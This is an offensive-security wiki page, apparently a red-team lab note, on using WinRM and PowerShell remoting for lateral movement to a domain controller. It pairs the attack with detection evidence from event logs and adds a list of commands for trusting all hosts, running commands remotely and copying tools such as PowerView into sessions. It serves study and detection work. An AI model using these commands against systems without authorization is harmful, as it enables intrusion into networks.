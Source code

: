 ```yaml
---
description: PowerShell remoting for lateral movement.
---
```


# T1028: WinRM for Lateral Movement

## Execution

Attacker establishing a PSRemoting session from a compromised system `10.0.0.2` to a domain controller `dc-mantvydas` at `10.0.0.6`:

{% code title="attacker@10.0.0.2" %}
```csharp
New-PSSession -ComputerName dc-mantvydas -Credential (Get-Credential)

  Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 Session1        dc-mantvydas    RemoteMachine   Opened        Microsoft.PowerShell     Available

PS C:\Users\mantvydas> Enter-PSSession 1
[dc-mantvydas]: PS C:\Users\spotless\Documents> calc.exe
```
{% endcode %}

## Observations

Note the process ancestry:

![](../../.gitbook/assets/wsmprovhost-calc.png)

![](../../.gitbook/assets/wsmprovhost-calc-sysmon.png)

On the host that initiated the connection, a `4648` logon attempt is logged, showing what process initiated it, the hostname where it connected to and which account was used:

![](../../.gitbook/assets/winrm-local-logon-events.png)

The below graphic shows that the logon events `4648` annd `4624` are being logged on both the system that initiated the connection \(`pc-mantvydas - 4648`\) and the system that it logged on to \(`dc-mantvydas - 4624`\):

![](../../.gitbook/assets/winrm-logons-both.png)

Additionally, `%SystemRoot%\System32\Winevt\Logs\Microsoft-Windows-WinRM%4Operational.evtx` on the host that initiated connection to the remote host, logs some interesting data for a task `WSMan Session initialize` :

```markup
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-WinRM" Guid="{A7975C8F-AC13-49F1-87DA-5A984A4AB417}" /> 
  <EventID>6</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>3</Task> 
  <Opcode>1</Opcode> 
  <Keywords>0x4000000000000002</Keywords> 

  # connection iniation time
  <TimeCreated SystemTime="2018-07-25T21:13:36.511895800Z" /> 
  <EventRecordID>673</EventRecordID> 

  # a unique connection ID
  <Correlation ActivityID="{037F878B-8DF6-4F1A-BA51-432C3CDDCB47}" /> 

  # process ID that initiated the connection
  <Execution ProcessID="3172" ThreadID="2844" /> 
  <Channel>Microsoft-Windows-WinRM/Operational</Channel> 
  <Computer>PC-MANTVYDAS.offense.local</Computer> 
  <Security UserID="S-1-5-21-1731862936-2585581443-184968265-1001" /> 
  </System>
- <EventData>

  # remote host the connection was initiated to
  <Data Name="connection">dc-mantvydas/wsman?PSVersion=5.1.14409.1005</Data> 
  </EventData>
  </Event>
```

...same as above just in the actual screenshot:

![](../../.gitbook/assets/winrm-eventlogs.png)

![](../../.gitbook/assets/winrm-session-information.png)

Since we entered into a PS Shell on the remote system `(Enter-PSSession)` , there is another interesting log showing the establishment of a remote shell - note that the ShellID corresponds to the earlier observed `Correlation ActivityID`:

![](../../.gitbook/assets/winrm-shell.png)

## Additional Useful Commands

[Jules Adriaens](https://twitter.com/@Expl0itabl3) reached out to me and suggested to add the following useful commands, so here they are:

```csharp
# Enable PowerShell Remoting on the target (box needs to be compromised first)
Enable-PSRemoting -force

# Check if a given system is listening on WinRM port
Test-NetConnection <IP> -CommonTCPPort WINRM

# Trust all hosts:
Set-Item WSMan:\localhost\Client\TrustedHosts -Value * -Force

# Check what hosts are trusted
Get-Item WSMan:\localhost\Client\TrustedHosts

# Execute command on remote host
Invoke-Command <host> -Credential $cred -ScriptBlock {Hostname}

# Interactive session with explicit credentials
Enter-PSSession <host> -Credential <domain>\<user>

# Interactive session using Kerberos:
Enter-PSSession <host> -Authentication Kerberos

# Upload file to remote session
Copy-Item -Path C:\Temp\PowerView.ps1 -Destination C:\Temp\ -ToSession (Get-PSSession)

# Download file from remote session
Copy-Item -Path C:\Users\Administrator\Desktop\test.txt -Destination C:\Temp\ -FromSession (Get-PSSession)
```

## References

{% embed url="http://www.hurryupandwait.io/blog/a-look-under-the-hood-at-powershell-remoting-through-a-ruby-cross-plaform-lens" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1028" %}

